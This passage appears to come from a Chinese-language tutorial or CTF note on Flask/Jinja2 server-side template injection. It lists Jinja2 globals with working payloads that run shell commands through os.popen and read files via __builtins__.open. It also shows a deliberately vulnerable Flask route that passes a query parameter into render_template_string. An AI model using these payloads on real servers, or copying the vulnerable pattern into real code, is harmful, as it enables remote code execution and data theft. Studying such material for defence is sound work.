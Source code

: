 > lipsum  
>   flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}} {{cycler.__init__.__globals__.os.popen('ls').read()}}  
> current_app  
>   应用上下文，一个全局变量  
> request  
>   可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()  
> request.args.x1  
>   get传参  
> request.values.x1  
>   所有参数  
> request.cookies  
>   cookies参数  
> request.headers  
>   请求头参数  
> request.form.x1  
>   post传参(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)  
> request.data  
>   post传参(Content-Type:a/b)  
> request.json  
>   post传json(Content-Type:application/json)  
> config  
>   当前application的所有配置。此外，也可以{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

# 漏洞原理

## 代码复现

如以下代码：

```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)


@app.route('/ssti', methods=['GET', 'POST'])
def sb():
    template = '''
        <div class="center-content error">
            <h1>This is ssti! %s</h1>
        </div>
    ''' % request.args["x"]

    return render_template_string(template)


if __name__ == '__main__':
    app.debug = True
    app.run()
```
